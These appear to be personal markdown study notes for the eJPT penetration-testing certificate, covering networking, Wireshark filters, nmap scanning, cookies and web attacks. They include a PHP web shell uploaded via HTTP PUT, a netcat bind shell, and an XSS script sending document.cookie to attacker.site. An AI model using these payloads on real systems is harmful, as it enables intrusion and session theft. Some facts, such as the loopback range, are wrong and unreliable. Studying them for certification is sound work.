

# eJPT Notes - eLearnSecurity Junior Penetration Tester Certificate Notes

## Introduction
### HTTP(s) Sniffing w/ Wireshark
- Helpful Snippets:
  - `request.method == "POST"` 
  - `http & ip.src == 192.168.0.1`
  - `tcp.port == xx`
  - `tcp.srcport == xx`
  - `http.request`
- After Capturing 
  - `Follow` - > `TCP Stream`

### OSI Model
- Each layer serves the layer ABOVE it
- Through the process of encapuslation, the lower layer passes off its payload as the HEADER AND PAYLOAD for the upper leayer... That lower layer's header is what directs it to go up.
 

 
### Networking
- Reserved IPv4 Addresses
  - `0.0.0.0` - `0.255.255.255` represent "THIS network"
  - `127.0.0.0` - `128.255.255.255` represent the local host (your pc)
  - `192.168.0.0` - `192.168.255.255` reserved for private networks
- Check listening ports and current TCP connections
  - `netstat -ano` on windows
  - `netstat -tunp` on linux
  - `netstat -p tcp -p udp lsof -n -i4TCP -i4UDP on MacOS` (Yes, really typed like that...)
- To identify a host, you need BOTH the IP Address AND the netmask to tap it's network
- To get subnet size, take the netmask and convert it to binary... Count how many "1" bits are in a row and that will be the total /19 or /24 ... 
 
#### Gateway, Subnet...etc
- EX: `10.54.12.0/24` (10.54.12.0/255.255.255.0)
  - `255` in binary has 8 "1" bits. So if we do 2^8, we get the number of addresses at that subnet which is 256 addresses.
-  `10.54.12.0` is the network address or `Gateway`/ router
-  `10.54.12.255` is the `BROADCAST` address
 
#### Routing
- Default Address of `0.0.0.0` is used when the router recieves a packet whose destination is `UNKNOWN` netowrk
- Helpful Snippets:
  - `ip neighbour` (linux to get the ARP cache)
  - `arp -a` (linux + windows ARP table)
  - `ip route` Linux Routing Table
  - `route print` on windows
  - `netstat -r` on OSX
- Switches without VLANs DO NOT segement networks, routers can be used to segement them if need be
- Devices to watch out for to pivot/ route
  - Printers, fileserver, webserver or anything like that in the ARB table
- If stuck on exam, Full Stack Analysis with Wireshark touches on finding other routers with Wireshark
- Add Route Example
    - Our `tap0` VPN IP: `10.175.34.100`
    - Target Machine IP: `192.168.222.199`
    - Target Network: `192.168.222.0/24`
    - Our Gateway IP (`tap0` vpn ip to match other servers there): `10.175.34.1`
  - Query to add: 
    - `ip route add {TARGET NETWORK} via {OUR NETWORK} dev {vpn interface}`
    - `ip route add 192.168.222.0/24 via 10.175.34.1 dev tap0`
    - call, `ip r` and you will see it added to our ip table and you can access it now!
    - Other Queries also working: 
      - `ip route add {TARGET NETWORK} via {OUR NETWORK}`
 
#### Firewalls
- Firewalls have filters packets through the following actions
  - `Allow`: packet is able to pass
  - `Drop`: Drops the packet without an error message or anything to the source
  - `Deny`: Deny passage WITH an error messsage
- IMPORTANT - Interview-esque Questions
    - Typical firewalls can ONLY filter traffic by IP addresses, ports, and protocols
    - Layer 7 (Application Layer) firewalls are able to inspect content and do more than traditional Firewalls
    - Firewalls can also be used to implment NAT 
    - In DNS, it's the RESOLVER SERVER which actually translates things through the Domain Name System. So the resolver is the server that does that operation and is hosted by your isp or whoever, like opendns or whatever you use.
 
### Wireshark Helpul Snippets
- Note: These are like classes... sort of. So you can do ip.**addr** ip.xyz
  - `http.request.method == GET`
  - `tcp.stream eq 0` (will show the first tcp stream, if we change it 1 it will show us a whole different stream if available.)
 

 
 
- VIEW -> Menu Resolution  -> Enable Mac Layer - Shows you the mac addresses and is helpful in trying to find other devices/ routers. Do arp filter than check on it.
 - A - Record  or A in DNS is the (Host Address). So if we capture DNS data we can see the type of the request sometimes is of type: A (Host Address), its literally an ip of the machine.
- To see just sucessful ports egresscheck
    - `tcp.seq==1 and tcp.ack==1` - fast way to check inbound/ outbound during an egresscheck, use this in wireshark after capturing the traffic

### Web & Cookies
- Using console and cannot use BurpSuite:
  - EX: `openssl s_client -connect targetSite.com:443`
  - flag `-quiet` to stop it from using verbose mode
  - Once connected we can do OPTIONS to see what's allowed, PUT can allow us to put a shell on the target

- Standard Cookies (local/ client-side)
  - If cookie domain is not specified it will be restrcited to just the immediate server and will not pass to other sub.domains.com.
  - Adding `http.only` flag when setting up a cookie pervents against XSS and other attacks that might allow reading of that cookie.
  - Adding `secure` flag in a cookie will only send cookies on HTTPS connections
  - When hijacking cookies, first make an init request to have the site generate us a cookie, **THEN** we can manipulate that and insert our own before submitting a GET request to the site with the weaponized cookie

- Session Cookies (server-side)
  - Slightly less secure to hide some of how the site functions, token-based
  - Can be submitted through GET links, EX: https://coolsite.com/index.php&sessid=kw3r9
  - PHP Sites use: `PHPSESSID`
  - JSP Sites use: `JSESSIONID`
  - **Web dev can set their own custom parameters though instead of the examples above for PHP & JSP.**
  - So biggest differecnes between HTTP and HTTPS are within the ssl/tls handshake
 
----------------
## Penetration Testing 
### Infomration Gathering & Scanning
- Subdomain Enumeration 
  - `cert.sh` - By far the best, a website that outputs TONS of subdomains based on certs domain checks
  - Go to a target site's cert details in the browser, it will show other subdomains as well if it's a shared cert
    - Careful from wildcard certs as they will return a subdomain for anything searched/ quiered. Ex: notrealsub.google.com will return valid if wildcard cert is on it.
  - Use Sublist3r or `dnsdumpster.com`
  - `VirusTotal.com` search for a domain 

- Ping Sweep: Used to create a map of a network
  - IMPORTANT: Use two tools to confirm everything is good, fping AND nmap. Nmap, if you don't need output remove /dev/null
  - nmap is the defacto choice, as it allows you to input a list of ip ranges and much more
    - `nmap -sn 10.10.10.3-222`    
    - To force nmap os detection of a host even if it returns an error, try nmap -Pn -O TARGETIP (Note: This is very noisy)
    - More accurate OS scan: `nmap -sT -O TARGETIP/Range` (SYN-TCP based)
  - `fping -a -g IPRANGE`
    - `-a` flag, we want to see only hosts that are available (alive)
    - `-g` flag, we want this a ping sweep and not standard ping request
    - To hide offline hosts error messages use `2>/dev/null` at the end of the command ex: `fping -a -g 10.10.10.2 10.10.10.222 2>/dev/null` will show us only valid and alive hosts (CAN BACKFIRE, sometimes skips hosts with all ports closed)

- Port Scanning
  - `-sS` flag - Stealth scanning in nmap is decent against firewalls but can still be detected by some IDS. It's a SYN scan that drops the 3-handshake communication before connecting, which makes the service on the port unable of detecting it. 
  - `nmap <scan type> 10.10.10.3,6,9` will only scan hosts 10.10.10.3 then ...10.6 ... 10.9
  - DO NOT give up on `filtered` ports (request is blocked by FW/ IDS), try to force them with `-Pn`

### Vulnerability Assessment
- Much more linear than pentesting and less effective as we have no way to prove those vulns are actually exploitable
  - Scan probes to verify a vuln is **can lead to false positives**
- Typical approach (rather than cycle): Engagment -> Information Gathering -> Footprinting & Scanning -> Vulnerability Assessment -> Reporting
- Assessments on custom applications are more arduous as you have to more manual work than running several scanners

### Web Attacks
- Banner grabbing: 
  - Can be obsfuscated as admins can change the banner info. That's where automated tools lik httprint excel, it will pick that up (signatrue-bsed)
  - Netcat (Manual: HTTP-ONLY)
    ```bash
    nc <target address> 80 
    HEAD / HTTP/1.0` #NOTE: PUT TWO EMPTY LINES AFTER! Also make sure the request is in UPPERCASE
    
    
    ```
   - If the banner grab is unsuccessful, it's probably because you left out the two extra empty lines after the request HEAD... that being the two empty lines after which the body goes if we had any.
      - Sometimes might get lucky and get even OS running on that server
  - OpenSSL (Manual: HTTPS) 
    - `openssl s_client -connect target.site:443`
    - `HEAD / HTTP/1.0`
  - httprint (Automated)
    ```bash
    httprint -P0 -h <target hosts> -s <signature files>
    httprint -P0 -h 1.2.3.4 -s /usr/share/httprint/signatures.txt #Example 
    ```
- HTTP Verbs
  - `OPTIONS` gives us enabled HTTP verbs on the host
  - **IMPORTANT: REST APIs use PUT/ DELETE to save files as normal operations, so do not report *ANY* verbs found without veryfing their impact**  
  - `PUT` is the most dangerous as it uploads files to a server. **NOTE: Must write the correct size of the uploaded content**
    ```bash 
      PUT /path/to/destination HTTP/1.1
      Host: www.website.com
      
      
      <PUT data> 
    ```
    ```bash 
      # Example
      nc vicitm.site 80
      PUT /payload.php HTTP/1.0
      Content-type: text/html
      Content-length: 20 # NOTE: You have to have know length of the contents before sending, wc -m payload.php gives us length in bytes
    ```
    - Great shell that works with `PUT`: 
      ```php
      <?php 
      if (isset($_GET['cmd']))
      {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '<pre>';
      }
      ?>
      ```
      - We can now send requests on the site with `victim.site/shellweUploaded?cmd=cat /etc/passwd`
  - `Delete` is another dangerous verb to lookout for - Deletes files off a server (DoS/ Data Loss)
    ```bash 
      DELETE /path/login.php HTTP/1.1 
      Host: www.website.com
    ```
  - `POST` parameters (form data) only work in the **message body**
   
  
### Helpful Commands
- `nmap -sn 10.10.10.22/24 | grep -oP '(?<=Nmap scan report for )[^ ]*'` Clean nmap ping sweep
- `nc -v 127.0.0.1 8888` will let us contact a listening port on the target adress here localhost. This is not to be confused with the listener we typical use in reverse shells `nc nvlp 8888`. The first command is used to call the second command and establish connection.
- For a simple shell if target host has nc:
  - On target host: `nc -nvlp 1337 -e /bin/bash` where `-e` executes any command.
  - On our machine: `nc -v 127.0.0.1 1337` of course, instead of local host insert the target IP.


    
### Good to Know
- Backps are typically stored in .bak, .old, .txt, and .xxx. So if we want to find any backups on a site run gobuster against those.c
- Directory Enumeration
  - If gobuster/ dirb are being blocked, you might need a User Agent to enmulate browser traffic and snag some dirs. Ex: `dirb http://targetsite.site -a "Mozilla/ browser agent we copied from an online source"`
  - Adding a cookie can give more results with gobuster/ dirbuster. EX: `dirb http://targetsite.site -c "COOKIE:XYZ"` copy the 
  - Adding a basic auth can also bring up more results `-U` in gobuster, and in dirb: `dirb http://targetsite.site -u "admin:password"`
  - `-x txt,php,/` to include directories with the file extensions search in gobuster.
- XSS: stealing cookie content and sending it to an attacker
  - ```html
    <script>
    var i = new Image();
    i.src="http://attacker.site/log.php?q="+document.cookie; 
    </script
    ```
    - NOTE: the log.php file is a simple scrip tthat saves files on the attacker machine

  
  


